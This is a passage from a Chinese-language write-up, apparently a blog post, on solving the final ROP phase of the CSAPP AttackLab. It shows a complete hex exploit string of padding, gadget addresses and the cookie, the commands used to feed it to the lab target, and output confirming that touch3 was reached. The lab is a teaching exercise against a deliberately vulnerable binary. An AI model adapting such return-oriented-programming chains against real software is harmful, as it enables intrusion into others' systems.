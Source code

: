 直接运行发现遇到了段错误，顺理成章地想到我们在 phase4 中踩过的坑，栈指针没有对应十六字节，导致错误。

所以我们略微调整一下输入代码，引入一下 phase4 中就找到的无义序列地址 `0x402244` 并减少后面的一行代码，得到新的 `p6.txt`：

```asm
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
44 22 40 00 00 00 00 00
8d 22 40 00 00 00 00 00
a4 21 40 00 00 00 00 00
bc 21 40 00 00 00 00 00
48 00 00 00 00 00 00 00
ad 22 40 00 00 00 00 00
ee 22 40 00 00 00 00 00
81 22 40 00 00 00 00 00
f9 21 40 00 00 00 00 00
a4 21 40 00 00 00 00 00
cd 1f 40 00 00 00 00 00
31 31 61 36 37 36 31 30
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
88 00 00 00 00 01 00 00
```

编译运行：

```bash
./hex2raw < p6.txt > p6a.txt
./starget -i p6a.txt
```

一遍通过！

```text
Cookie: 0x11a67610
Touch3!: You called touch3("11a67610")
Valid solution for level 3 with target starget
PASS: Sent exploit string to server to be validated.
NICE JOB!
```

至此，我们终于踩完了所有的坑，完成了 AttackLab！

## 参考资料

-   [不周山 / 【读厚 CSAPP】III Attack Lab](https://wdxtub.com/csapp/thick-csapp-lab-3/2016/04/16/)
